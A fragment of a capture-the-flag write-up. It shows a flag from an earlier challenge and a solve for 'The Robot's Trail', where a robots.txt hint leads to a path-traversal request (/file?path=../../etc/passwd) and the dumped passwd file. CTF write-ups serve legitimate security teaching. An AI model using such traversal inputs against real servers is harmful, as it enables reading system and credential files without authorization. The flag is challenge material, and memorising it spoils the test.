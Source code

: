 ![alt text](image-1.png)

**Flag:** `citadel{1_L0V3_1DM}`

---

## Challenge 9: The Robot's Trail

### Solve
We opened the robots/txt by inspect element

```
User-agent: *

# We value our digital privacy and have restricted access to certain system-level configurations.
Disallow: /file?path=../../etc/passwd
Disallow: /file?path=../../../etc/passwd

# Hint for curious explorers: 
# Sometimes system files like /etc/passwd can reveal interesting information...
# But remember to respect privacy boundaries!
```
Now we took /etc/passwd to the url and got this:

```
"root:x:0:0:root:/root:/bin/bash\n"
"daemon:x:1:1:daemon:/usr/sbin:/usr/sbin/nologin\n"
"bin:x:2:2:bin:/bin:/usr/sbin/nologin\n"
"sys:x:3:3:sys:/dev:/usr/sbin/nologin\n"
"nobody:x:65534:65534:nobody:/nonexistent:/usr/sbin/nologin\n"
"webadmin:x:1000:1000:Check the web server config at /var/www/html/config.php:/home/webadmin:/bin/bash\n"
```
